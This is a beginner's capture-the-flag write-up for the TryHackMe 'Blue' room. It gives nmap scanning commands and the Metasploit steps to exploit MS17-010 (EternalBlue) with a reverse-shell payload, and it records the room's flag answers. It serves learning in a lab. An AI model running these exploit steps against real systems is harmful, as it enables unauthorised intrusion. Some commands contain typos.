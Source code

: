 ```yaml
---
layout: page
title: Blue
permalink: /Tutorials/TryHackMe/Blue/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>
I used this page to help learn more Nmap commands maybe you can to!
<br/><br/>
https://www.stationx.net/nmap-cheat-sheet/
<br/><br/>
Start the machine and the connect using your Open VPN
<br/><br/>
Run "nmap *IP of Active machine*" to scan 1000 common ports
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-Port Count.PNG">
<br/><br/>
We now have the first Flag!
<br/>
**"3"** is the number of open ports under 1000
<br/><br/>
Now we need to see what the machine is vulnerable to
<br/><br/>
lets run a quick command on those 3 ports
<br/><br/>
"nmap --script vuln -p *IP of Active machine* -v"
<br/><br/>
"--script vuln" will load in scripts to scan on the target IP/Ports
<br/>
"-p 135-445" will scan ports 135-445 with those vulnerability script
<br/>
"-v" increases the verbosity *adds more words* (you can use -vv for a greater effect)
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-MS17.PNG">
<br/><br/>
Now we have our final flag of task 1!
<br/><br/>
in our command we see **"ms17-010"** it even shows the disclosure date right below the red box
<br/><br/>
<br/><br/>
**TASK 2**
<br/><br/>
We will need to use Metasploit for this portion
<br/><br/>
Lets run "msfdb init" (MetaSploit Framework DataBase Initialize)
<br/><br/>
Now lets run "msfdb start" to make sure the database is started
<br/><br/>
<br/><br/>
**Previous steps may not be needed** lets run "msfconsole"
<br/><br/>
Once we get ourt ASCII art we can run the next command
<br/><br/>
"search ms17-010"
<br/><br/>
This will show several options but since weknow we have a Windows machine we can try those first
<br/><br/>
"use 2" will choose the second choice
<br/><br/>
**"xploit/windows/smb/ms17_010_eternalblue" is the answer for the full path of the code**
br/><br/>
Next up "Set RHOSTS *IP of Active machine*"
<br/><br/>
**"RHOSTS" is the answer for the name of the value**
<br/><br/>
"show options" will show all the required areas are now done
<br/><br/>
The room wants us to use "set payload windows/x64/shell/reverse_tcp" before we do the next step
<br/><br/>
all we have to do now is type "run"
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
